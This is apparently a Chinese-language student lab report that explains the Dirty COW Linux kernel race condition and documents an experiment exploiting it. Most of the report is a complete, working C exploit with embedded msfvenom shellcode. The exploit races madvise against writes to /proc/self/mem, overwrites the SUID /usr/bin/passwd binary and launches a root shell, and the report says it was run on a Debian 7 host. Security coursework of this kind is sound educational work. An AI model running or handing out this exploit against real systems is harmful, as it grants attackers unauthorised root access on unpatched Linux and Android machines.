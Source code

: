 # Exp 4 利用Dirty COW攻击操作系统

赵子瑞 PB14000296
王子博 PB15061276

## 1. 漏洞介绍  

Dirty COW是一个自Linux内核2.6.22以来就一直存在的一个漏洞, 这个漏洞在2016年的十月份才被发现, 在内核4.4.26及以上的版本中已经被修复. 这个漏洞会影响所有的基于Linux内核的系统, 比如在Android 7即一下的系统, 都被证实可以通过这个漏洞来获得root权限.

这个漏洞的原理是利用多线程写时复制(COW)时的竞争来允许用户对其本来没有足够的权限的文件进行更改. 当有两个线程或者进程去访问同一个文件的时候, 会有一定概率触发一个竞争条件, 这种时候, 在内存被拷贝之前就有一定概率被标记为可以写入, 这样就可以利用这个标记来修改一些原本无法修改的文件.

## 2. PoC

### a. 关键代码解析

```c
map = mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
```

在攻击之前, 先创建好一个内存映射文件, 其具有读属性, 并且为私有的COW映射.

```c
void* procselfmemThread(void *arg) {
    char *str;
    str = (char*)arg;
    int f = open("/proc/self/mem", O_RDWR);
    int i, c = 0;
    for(i = 0; i < 1000000 && !stop; i++) {
        lseek(f, map, SEEK_SET);
        c += write(f, str, sc_len);
    }
    printf("thread stopped\n");
}
```

上面这个函数的用途是试图去修改一个被映射到内存的文件, 其在确认修改成功之前会不停地尝试进行修改, 而下面的函数中是另一个用来和写入线程相互竞争的线程, 其核心函数就是madvise, 其用途是告诉内核一些关于内存处理的"提示", 比如这里MADV_DONTNEED, 含义是这些内存在短时间内不会再被访问, 系统可以回收这一块资源.所以程序中总共有两个线程, 第一个线程的作用是试图写入该文件, 这会产生一次COW, 并且随后又会被另外一个线程将这一块内存的拷贝删除, 双方就会往复地进行, 线程1试图写入, 系统就会为其创建一个新的内存的拷贝, 而线程2又将其释放, 当两者交替进行操作的时候, 就有可能一次COW还未被系统释放就被再次写入, 在一些条件下会导致其之间写道原内存上, 这样就达到了对无法写的内存进行读写的操作.

```c
void* madviseThread(void *arg) {
    char *str;
    str = (char*)arg;
    int i, c = 0;
    for(i = 0; i < 1000000 && !stop; i++) {
        c += madvise(map, 100, MADV_DONTNEED);
    }
    printf("thread stopped\n");
}
```

由于可以对不可以写入的内存进行写入, 所以可以通过这种方式去修改passwd文件去获得root权限. 完整代码如下

### b. 源代码

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <unistd.h>

void *map;
int f;
int stop = 0;
struct stat st;
char *name;
pthread_t pth1,pth2,pth3;

// change if no permissions to read
char suid_binary[] = "/usr/bin/passwd";

/*
* $ msfvenom -p linux/x64/exec CMD=/bin/bash PrependSetuid=True -f elf | xxd -i
*/ 
unsigned char sc[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x07, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
  0xb1, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xea, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x48, 0x31, 0xff, 0x6a, 0x69, 0x58, 0x0f, 0x05, 0x6a, 0x3b, 0x58, 0x99,
  0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x53, 0x48,
  0x89, 0xe7, 0x68, 0x2d, 0x63, 0x00, 0x00, 0x48, 0x89, 0xe6, 0x52, 0xe8,
  0x0a, 0x00, 0x00, 0x00, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x62, 0x61, 0x73,
  0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05
};

unsigned int sc_len = 177;


void *madviseThread(void *arg) {
    char *str;
    str = (char*)arg;
    int i, c = 0;
    for(i = 0; i < 1000000 && !stop; i++) {
        c += madvise(map, 100, MADV_DONTNEED);
    }
    printf("thread stopped\n");
}

void *procselfmemThread(void *arg) {
    char *str;
    str = (char*)arg;
    int f = open("/proc/self/mem",O_RDWR);
    int i, c = 0;
    for(i = 0; i < 1000000 && !stop; i++) {
        lseek(f, map, SEEK_SET);
        c += write(f, str, sc_len);
    }
    printf("thread stopped\n");
}

void *waitForWrite(void *arg) {
    char buf[sc_len];

    for(;;) {
        FILE *fp = fopen(suid_binary, "rb");

        fread(buf, sc_len, 1, fp);

        if(memcmp(buf, sc, sc_len) == 0) {
            printf("%s overwritten\n", suid_binary);
            break;
        }

        fclose(fp);
        sleep(1);
    }

    stop = 1;

    printf("Popping root shell.\n");
    printf("Don't forget to restore /tmp/bak\n");

    system(suid_binary);
}

int main(int argc,char *argv[]) {
    char *backup;

    printf("DirtyCow root privilege escalation\n");
    printf("Backing up %s to /tmp/bak\n", suid_binary);

    asprintf(&backup, "cp %s /tmp/bak", suid_binary);
    system(backup);

    f = open(suid_binary, O_RDONLY);
    fstat(f, &st);

    printf("Size of binary: %d\n", st.st_size);

    char payload[st.st_size];
    memset(payload, 0x90, st.st_size);
    memcpy(payload, sc, sc_len + 1);

    map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);

    printf("Racing, this may take a while..\n");

    pthread_create(&pth1, NULL, &madviseThread, suid_binary);
    pthread_create(&pth2, NULL, &procselfmemThread, payload);
    pthread_create(&pth3, NULL, &waitForWrite, NULL);

    pthread_join(pth3, NULL);

    return 0;
}
```

## 3. 实验结果

编译代码:

```shell
/run.sh
```

在科大云的环境(Linux version 3.2.0-4-amd64, debian 7.x)中, 去运行程序, 可以得到如下结果:

![](360.png)
